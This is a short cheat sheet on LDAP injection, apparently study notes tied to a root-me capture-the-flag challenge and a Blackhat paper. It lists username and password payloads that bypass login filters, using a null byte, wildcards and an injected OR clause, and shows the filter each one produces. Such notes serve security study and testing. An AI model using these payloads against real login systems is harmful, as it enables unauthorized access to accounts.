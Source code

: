 LDAP injection
===
Access Control Bypass

ex.
```js
(&(username=USER)(password=PWD))

//null byte
  username: *))%00
(&(usernam =*))%00//)(password=PWD))
//wild card
  username: *
  password: *)(&
(&(username=*)(password=*)(&))

//or clause
  username: *)(|(userPassword= 
  password: *)
(&(username=*)(|(password=)(password=*)))
```

ref.
- https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-authentication
- http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf

